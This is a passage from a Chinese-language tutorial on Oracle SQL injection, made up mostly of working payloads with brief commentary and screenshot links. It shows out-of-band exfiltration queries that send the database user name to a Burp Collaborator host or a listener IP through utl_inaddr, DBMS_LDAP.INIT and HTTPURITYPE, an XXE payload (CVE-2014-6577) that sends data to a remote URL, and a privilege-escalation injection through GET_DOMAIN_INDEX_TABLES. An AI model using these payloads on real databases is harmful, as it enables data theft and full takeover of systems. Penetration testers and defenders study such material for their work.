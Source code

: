 ```sql
-- payload
and (select utl_inaddr.get_host_address((select user from dual)||'.slhiqawh25q5ujl3kqdt0o48pzvqjf.burpcollaborator.net') from dual) is not null
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_05_dMEz61Rg.png)
如果像数据库版本太长，会导致出错，既然要外带，就使用substr()函数来截取字符串，每次取几个特定的字符即可,下图是选择全长度的数据库，会直接报错
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_05_5DLQ2bFd.png)
这里使用substr函数进行分割，一个一个获取
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_06_rmDnouPY.png)
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_06_oJt3qUhr.png)
### SYS.DBMS_LDAP.INIT()函数
```sql
select SYS.DBMS_LDAP.INIT((select user from dual)||'.slhiqawh25q5ujl3kqdt0o48pzvqjf.burpcollaborator.net',80) from dual
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/21929389/1632647252940-bf3f07ae-1907-49b6-bfa7-cecaaffa2f0d.png#averageHue=%23657474&clientId=u2deddca2-de04-4&from=paste&height=214&id=udfa805c8&originHeight=214&originWidth=1545&originalType=binary&ratio=1&rotation=0&showTitle=false&size=257741&status=done&style=none&taskId=u467579b3-bc1c-4ed5-ae4c-bc66f06d183&title=&width=1545)![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_06_prXZCjDs.png)
### HTTPURITYPE()
同样需要python起一个http服务，或者nc创建监听，或者dnslog外带
```sql
select HTTPURITYPE('http://172.17.0.1:8888/'||(select user from dual)).GETCLOB() FROM DUAL
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_06_RD1CfTM5.png)
```sql
and (select HTTPURITYPE('http://'||(select user from dual)||'.slhiqawh25q5ujl3kqdt0o48pzvqjf.burpcollaborator.net').GETCLOB() FROM DUAL) is not null
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_07_9Z4BUR7W.png)
## 其他攻击方式
### Oracle XXE
实际上是`CVE-2014-6577`，受影响的版本：`11.2.0.3`，`11.2.0.4`，`12.1.0.1` 和`12.1.0.2`
Oracle XXE 的效果和 UTL_http 的效果差不多，都是将数据传输到远端服务器上。但是，由于 extractvalue() 函数对所有数据库用户都可以使用，不存在权限的问题，所以当在低权限没有UTL_http 权限时，这个不失为一个好方法
```sql
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "you own url'||(SELECT user from dual)||'"> %remote;]>'),'/l') from dual
```
### Oracle 提权漏洞
原理是 GET_DOMAIN_INDEX_TABLES 函数的参数存在注入。而该函数的所有者是 sys，所以通过注入就可以执行任意 sql 语句。而该函数的执行权限为 public，所以只要遇到一个 Oracle 的注入点并且存在这个漏洞的，基本上都可以提升到最高权限。
```sql
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES(
    '1',
    '1',
    'DBMS _OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''your own payload'''';END;'';END;--',
    'SYS',
    0,
    '1',
    0
) from dual;
```
权限提升之后就可以做很多事了，因为 Oracle 可以执行 JAVA 代码，所以在提升权限后具体怎么操作，就看各自的 JAVA 水平了。
这里给出几种常见的利用方式（以下均为 your own payload 处的代码）：
#### 命令执行
